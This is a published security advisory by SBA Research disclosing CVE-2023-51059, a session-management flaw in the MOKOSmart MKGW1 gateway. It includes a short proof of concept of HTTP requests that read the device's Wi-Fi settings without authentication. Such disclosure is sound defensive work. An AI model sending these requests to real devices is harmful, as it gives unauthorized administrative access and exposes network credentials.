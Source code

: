# MOKOSmart MKGW1 Gateway Improper Session Management #

## Vulnerability Overview ##

MOKOSmart MKGW1 Gateway devices with firmware version 1.1.1 do
not provide an adequate session management for the administrative web
interface. This allows adjacent attackers with access to the management
network to read and modify the configuration of the device.

* **Identifier**            : SBA-ADV-20220120-01
* **Type of Vulnerability** : Improper Authentication
* **Software/Product Name** : [MOKOSmart MKGW1 BLE Gateway](https://www.mokosmart.com/mokosmart-mkgw1-gateway-iot-cloud-platform/)
* **Vendor**                : [MOKO TECHNOLOGY LTD](https://www.mokosmart.com/)
* **Affected Versions**     : 1.1.1
* **Fixed in Version**      : Not yet
* **CVE ID**                : CVE-2023-51059
* **CVSS Vector**           : CVSS:3.1/AV:A/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H
* **CVSS Base Score**       : 8.0 (High)

## Vendor Description ##

> * MKGW1 Bluetooth gateway is mainly used for the MOKO Bluetooth products.
> * It is convenient for users to get the data of the MOKO series Beacon,
>   and advertising raw data of any Bluetooth device.
> * It can upload the data to the server via MQTT (V3.1.1) or HTTP(S)
>   protocol.
> * MKGW1 was developed with MediaTek® MT7688AN relying on OpenWrt system
>   and Nordic® nRF52 platform.
> * MKGW1 can connect the standard MQTT Broker, Aws IOT, Azure IOT HUB,
>   Aliyun IOT.

Source: <http://doc.mokotechnology.com/index.php?s=/page/108>

## Impact ##

By exploiting the documented vulnerability, an attacker can gain
administrative access to the device. For example, this can be misused by
altering the configuration of the device or by reading out the configured
network credentials and therefore getting a foothold in the victim's network.

## Vulnerability Description ##

The gateway offers a web-based configuration interface that can be used to
edit the configuration of the gateway. Username and password are requested
to authenticate the administrator. After sending the correct credentials the
device sets a global server-side state to "logged in" for 3600 seconds,
rather than issuing a session ID. Now any device on the same network can
access the configuration interface as administrator without any additional
authentication and read and modify the configuration.

## Proof of Concept ##

Login with the admin credentials on the web interface from a legitimate
client:

HTTP request:

```http
POST /goform/login HTTP/1.1
Host: 192.168.22.1
Content-Type: application/json
Content-Length: 39
Origin: http://192.168.22.1
Connection: close
Referer: http://192.168.22.1/sign_in

{"username":"Admin","password":"[redacted]"}
```

HTTP response:

```http
HTTP/1.1 200 OK
Content-type: application/json
Pragma: no-cache
Cache-Control: no-cache

{ "state": { "code": 2000, "msg": "ok" }, "data": { "activetime": "3600" } }
```

The response shown above does not contain any session identifier.
On another client that can reach the web interface, an attacker can read out
the configuration without any authentication:

HTTP request:

```http
GET /goform/get_wan HTTP/1.1
Host: 192.168.22.1
Connection: close
```

HTTP response:

```http
HTTP/1.1 200 OK
Content-type: application/json

{ "state": { "code": 2000, "msg": "ok" }, "data": { "wanmode": "WIFI", "wanssid": "[redacted]", "wanencrypt": "[redacted]", "wanpassword": "[redacted]", "proto": "dhcp", "ipaddr": "", "netmask": "", "gateway": "", "firdns": "", "secdns": "" } }
```

The above proof-of-concept shows that the MOKO gateway cannot distinguish
between multiple sessions. Therefore, if a legitimate client is logged in,
an attacker can read the configuration. Furthermore, an attacker can also
modify the configuration by sending the appropriate `JSON` data to the
respective `POST` endpoint. Changes to the network can trigger a reboot
of the device.

## Recommended Countermeasures ##

We are not aware of a vendor fix yet. Please contact the vendor.

We recommend to implement a proper session management for the
administrative web interface of the device.

## Timeline ##

* `2022-01-20`: identification of vulnerability in version 1.1.1
* `2022-01-27`: initial vendor contact
* `2022-03-02`: disclosed vulnerability to vendor contact but received no reply
* `2023-12-11`: request CVE from MITRE
* `2023-12-12`: public disclosure
* `2024-01-09`: MITRE assigned CVE-2023-51059

## References ##

* [Moko Gateway Documentation](https://www.mokosmart.com/wp-content/uploads/2019/10/GS-gateway.pdf)

## Credits ##

* Jakob Hagl ([SBA Research](https://www.sba-research.org/))
* David Lisa Gnedt ([SBA Research](https://www.sba-research.org/))
